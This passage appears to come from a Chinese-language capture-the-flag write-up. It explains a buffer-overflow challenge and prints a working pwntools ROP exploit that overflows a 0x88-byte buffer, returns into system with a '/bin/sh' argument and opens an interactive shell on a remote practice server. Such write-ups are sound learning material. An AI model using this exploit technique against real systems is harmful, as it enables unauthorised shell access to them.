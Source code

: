 ![](截图\17.3.png)

2. 找到system函数地址和'/bin/sh'地址，构造ROP

**exp**

payload：0x88缓冲区，0x4覆盖ebp，然后system地址，返回地址，参数地址

```python
from pwn import *
p = remote('111.198.29.45','34109')
bin_sh_addr = 0x804a024
system_addr = 0x8048320
payload = "a"*0x88+"a"*4+p32(system_addr)+"aaaa"+p32(bin_sh_addr)
p.sendline(payload)
p.interactive()
```

3. 执行结果

![](截图\17.4.png)

### 2.hello_pwn

![](截图\18.2.png)
